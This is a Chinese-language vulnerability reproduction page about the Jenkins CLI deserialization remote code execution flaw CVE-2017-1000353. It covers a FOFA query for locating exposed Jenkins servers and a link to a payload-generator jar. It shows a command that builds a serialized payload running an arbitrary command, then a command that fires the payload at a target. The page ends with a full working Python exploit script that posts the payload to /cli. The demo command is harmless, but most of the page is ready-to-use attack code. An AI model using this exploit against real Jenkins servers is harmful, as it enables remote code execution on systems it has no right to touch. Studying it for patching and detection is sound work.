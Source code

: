 ```yaml
---
Title: Jenkins CI 远程代码执行漏洞 CVE-2017-1000353
---
```


# Jenkins CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

攻击者可以将序列化的Java SignedObject对象，传输到基于远程处理的Jenkins CLI，这将最终造成反序列化，进而绕过现有基于黑名单的保护机制。Altoros Jenkins for PCF 1.0.2之前所有版本都受影响，所有用户尽快升级

## 漏洞影响

<a-checkbox checked>Jenkins</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629513094370-fcc9d9e0-e71c-4e95-a197-b24f0bb85f2f-20220308154434574.png)

<a-alert type="success" message="下载生成POC的工具: https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar" description="" showIcon>
</a-alert>

<br/>

生成 `jenkins_poc.ser`

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629514273598-a151eaba-8a4e-4070-b274-caaedef61293.png)



使用Python脚本命令执行

`https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py`

```python
python3 jenkins.py http://xxx.xxx.xxx.xxx:8080 jenkins_poc.ser
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629514591067-fd7562de-73c4-4600-b071-459df7843238.png)

成功生成 success

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629514953277-01a113d9-3d07-4656-921b-0e80bcd712b9.png)

## 漏洞POC

```python
import urllib
import sys
import requests
import uuid
import threading
import time
import gzip
import urllib3
import zlib

proxies = {
# 'http': 'http://127.0.0.1:8085',
# 'https': 'http://127.0.0.1:8090',
}

URL = '%s/cli' % sys.argv[1].rstrip('/')

PREAMLE = b'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='
PROTO = b'\x00\x00\x00\x00'

with open(sys.argv[2], "rb") as f:
    FILE_SER = f.read()

def download(url, session):

    headers = {'Side' : 'download'}
    headers['Content-type'] = 'application/x-www-form-urlencoded'
    headers['Session'] = session
    headers['Transfer-Encoding'] = 'chunked'
    r = requests.post(url, data=null_payload(), headers=headers, proxies=proxies, stream=True, verify=False)
    print(r.content)


def upload(url, session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding'] = None
    r = requests.post(url,data=data,headers=headers,proxies=proxies, verify=False)


def upload_chunked(url,session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding']= None
    headers['Transfer-Encoding'] = 'chunked'
    headers['Cache-Control'] = 'no-cache'

    r = requests.post(url, headers=headers, data=create_payload_chunked(), proxies=proxies, verify=False)


def null_payload():
    yield b" "

def create_payload():
    payload = PREAMLE + PROTO + FILE_SER

    return payload

def create_payload_chunked():
    yield PREAMLE
    yield PROTO
    yield FILE_SER

def main():
    print("start")

    session = str(uuid.uuid4())

    t = threading.Thread(target=download, args=(URL, session))
    t.start()
    
    time.sleep(2)
    print("pwn")
    #upload(URL, session, create_payload())

    upload_chunked(URL, session, "asdf")

if __name__ == "__main__":
    main()

```

